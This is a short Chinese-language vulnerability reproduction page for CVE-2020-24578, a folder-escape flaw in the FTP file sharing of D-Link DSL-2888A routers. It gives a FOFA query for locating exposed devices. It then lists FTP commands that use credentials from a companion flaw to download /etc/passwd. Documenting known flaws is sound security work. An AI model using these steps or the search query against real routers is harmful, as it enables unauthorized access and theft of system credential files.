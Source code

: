# D-Link DSL-28881A FTP配置错误 CVE-2020-24578

## 漏洞描述

D-Link DSL-2888A路由器具有文件共享功能，该功能允许用户通过将外部驱动器插入路由器来与其他网络用户共享文件。然后通过FTP（文件传输协议）共享。但是，FTP服务允许网络用户转义共享文件夹以访问路由器文件系统并下载位于根文件夹中的其他文件。

## 漏洞影响

```
D-Link DSL-2888A
```

## FOFA

```
body="DSL-2888A"
```

## 漏洞复现

前提为使用 **D-Link DSL-28881A 信息泄露 CVE-2020-24577** 获取FTP凭证

以下提供了下载“ passwd”的示例：
在FTP客户端上使用以下命令以有效的凭据（从Finding-2获得）连接到FTP服务。
使用以下命令导航到根文件夹。

```plain
ftp xxx.xxx.xxx.xxx
ftp> cd etc 
ftp> get passwd
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162225017.png)